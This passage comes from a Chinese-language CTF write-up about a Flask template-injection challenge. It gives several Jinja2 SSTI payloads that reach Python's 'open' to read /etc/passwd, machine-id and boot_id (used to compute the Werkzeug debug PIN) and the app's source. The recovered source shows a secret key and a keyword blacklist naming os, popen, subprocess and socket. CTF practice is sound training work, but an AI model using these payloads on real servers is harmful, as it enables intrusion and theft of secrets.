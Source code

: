 ```
{{''.__class__.__bases__[0].__subclasses__()[128].__init__.__globals__}}

上面这个用完也可以得到一堆方法，里面有个open没有被过滤，可以选择用这个去读取一个文件
{{().__class__.__bases__[0].__subclasses__()[128].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}
```

第三个 payload

```
{{[].__class__.__bases__[0].__subclasses__()[102].__init__.__globals__['open']('/etc/machine-id').read()}}
```

![](屏幕截图-2023-09-12-180224-1024x804.png)

反正就是想尽一切办法去读取到这个 open 方法就行，然后下面是读取/etc/passwd 的结果

![](屏幕截图-2023-09-12-183240-1024x485.png)

5.然后接下来就是个机械式的操作了，就是不断的读取包含这些内容的文件，然后通过 python 算法得出 pin 的值，然后下面就是读到的一些值

```
1408f836b0ca514d796cbf8960e45fa1 /etc/machine-id
867ab5d2-4e57-4335-811b-2943c662e936 /proc/sys/kernel/random/boot_id
ba5f73903f04e275f7ecc8fd0d7ceb1981ecd9b055cb728def382f52a146a34e /proc/self/cgroup
```

得到的 pin 就是类似于 230-373-677 这种形式，然后我自己可能试了 30 遍吧，把网上公开的加密算法都试了一遍，同时也让师傅们都试了，最后实锤 buuctf 这个题目的环境有问题，这个已经替大家踩雷了，这个问题师傅们不用再困惑了

6.接下来咱们去读它源码，搞事情，当然这个就可能是非预期解了，关键这个题目的作者提示太明显了，就是要用 pin，奈何无法复现了，用下面这个 payload 去读

```
{{().__class__.__bases__[0].__subclasses__()[128].__init__.__globals__.__builtins__['open']('app.py').read()}}
```

结果如下

```
from flask import Flask,render_template_string from flask import render_template,request,flash,redirect,url_for from flask_wtf import FlaskForm from wtforms import StringField, SubmitField from wtforms.validators import DataRequired from flask_bootstrap import Bootstrap import base64 app = Flask(__name__) app.config[&#39;SECRET_KEY&#39;] = &#39;s_e_c_r_e_t_k_e_y&#39; bootstrap = Bootstrap(app) class NameForm(FlaskForm): text = StringField(&#39;BASE64加密&#39;,validators= [DataRequired()]) submit = SubmitField(&#39;提交&#39;) class NameForm1(FlaskForm): text = StringField(&#39;BASE64解密&#39;,validators= [DataRequired()]) submit = SubmitField(&#39;提交&#39;) def waf(str): black_list = [&#34;flag&#34;,&#34;os&#34;,&#34;system&#34;,&#34;popen&#34;,&#34;import&#34;,&#34;eval&#34;,&#34;chr&#34;,&#34;request&#34;, &#34;subprocess&#34;,&#34;commands&#34;,&#34;socket&#34;,&#34;hex&#34;,&#34;base64&#34;,&#34;*&#34;,&#34;?&#34;] for x in black_list : if x in str.lower() : return 1 @app.route(&#39;/hint&#39;,methods=[&#39;GET&#39;]) def hint(): txt = &#34;失败乃成功之母！！&#34; return render_template(&#34;hint.html&#34;,txt = txt) @app.route(&#39;/&#39;,methods=[&#39;POST&#39;,&#39;GET&#39;]) def encode(): if request.values.get(&#39;text&#39;) : text = request.values.get(&#34;text&#34;) text_decode = base64.b64encode(text.encode()) tmp = &#34;结果 :{0}&#34;.format(str(text_decode.decode())) res = render_template_string(tmp) flash(tmp) return redirect(url_for(&#39;encode&#39;)) else : text = &#34;&#34; form = NameForm(text) return render_template(&#34;index.html&#34;,form = form ,method = &#34;加密&#34; ,img = &#34;flask.png&#34;) @app.route(&#39;/decode&#39;,methods=[&#39;POST&#39;,&#39;GET&#39;]) def decode(): if request.values.get(&#39;text&#39;) : text = request.values.get(&#34;text&#34;) text_decode = base64.b64decode(text.encode()) tmp = &#34;结果 ： {0}&#34;.format(text_decode.decode()) if waf(tmp) : flash(&#34;no no no !!&#34;) return redirect(url_for(&#39;decode&#39;)) res = render_template_string(tmp) flash( res ) return redirect(url_for(&#39;decode&#39;)) else : text = &#34;&#34; form = NameForm1(text) return render_template(&#34;index.html&#34;,form = form, method = &#34;解密&#34; , img = &#34;flask1.png&#34;) @app.route(&#39;/&lt;name&gt;&#39;,methods=[&#39;GET&#39;]) def not_found(name): return render_template(&#34;404.html&#34;,name = name) if __name__ == &#39;__main__&#39;: app.run(host=&#34;0.0.0.0&#34;, port=5000, debug=True)
```
